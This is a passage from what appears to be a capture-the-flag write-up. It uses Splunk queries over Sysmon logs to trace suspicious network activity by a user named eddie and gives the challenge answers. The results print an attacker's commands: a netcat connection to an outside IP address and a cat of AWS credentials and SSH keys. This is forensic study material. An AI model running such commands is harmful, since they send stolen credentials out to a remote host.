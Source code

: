 This provides 7 events and our answer: `holiday-utils-js`

### Task 6

> Another elf started gathering a baseline of the network activity that Eddie generated. Start with their search and capture the full process_name field of anything that looks suspicious.

We start with the following query and results:

![Splunk Query](splunk2.png)

We can make a simple modification to display the process_name in the table:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) | stats count by dest_ip dest_port process_name
```

This provides us with our answer: `/usr/bin/nc.openbsd`

### Task  7

> Uh oh. This documentation exercise just turned into an investigation. Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process. One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do! Determine the number of files that were accessed by a related process and record it here.

We can inspect the above result a bit more and see that the PID of our suspect process is `6791`. As the prompt
suggests, we need to be searching for process creation events:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 PID=6791
```

Now we can see our parent process id, which is `6788`. Let's see what else this process has been up to:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational parent_process_id=6788 | table CommandLine
```

This gives us a table of the following commands:

```
nc -q1 54.175.69.219 16842
cat /home/eddie/.aws/credentials /home/eddie/.ssh/authorized_keys /home/eddie/.ssh/config /home/eddie/.ssh/eddie /home/eddie/.ssh/eddie.pub /home/eddie/.ssh/known_hosts
```
